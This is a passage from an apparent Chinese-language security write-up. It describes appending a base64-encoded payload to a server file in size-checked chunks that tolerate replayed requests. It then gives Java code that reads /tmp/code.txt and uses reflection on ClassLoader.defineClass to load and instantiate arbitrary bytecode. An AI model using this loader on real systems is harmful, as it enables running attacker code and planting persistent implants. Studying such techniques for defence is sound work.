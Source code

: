 ![](./img/1708841942736.png)

创建文件时写入了长度为 2000 的内容，后续追加内容时通过给定的范围对文件的大小进行判断，这样即使多次重放也不会带来其他干扰，以此保证不会出现同样的内容多次写入/内容遗漏的情况，使用举例：

第1次追加内容（创建文件时已写入 2000 长度的内容）
- 限制范围 small_size=1800&max_size=2200

第2次追加内容
- 限制范围 small_size=3800&max_size=4200

第3次追加内容
- 限制范围 small_size=5800&max_size=6200

...

3）读取字节码进行 defineClass - 成功

通过这种方式成功完成了类实例化

```java
try {
    ClassLoader classLoader = Thread.currentThread().getContextClassLoader();
    byte[] fileBytes = Files.readAllBytes(Paths.get("/tmp/code.txt"));
    String base64String = new String(fileBytes, StandardCharsets.UTF_8).replace("\r", "").replace("\n", "");
    byte[] byteArray = base64Decode(base64String);
    Method defineClass = ClassLoader.class.getDeclaredMethod("defineClass", byte[].class, int.class, int.class);
    defineClass.setAccessible(true);
    Class clazz = (Class) defineClass.invoke(classLoader, byteArray, 0, byteArray.length);
    clazz.newInstance();
    Thread.sleep(3000);
} catch (Exception ignored) {
    Thread.sleep(5000);
}
```
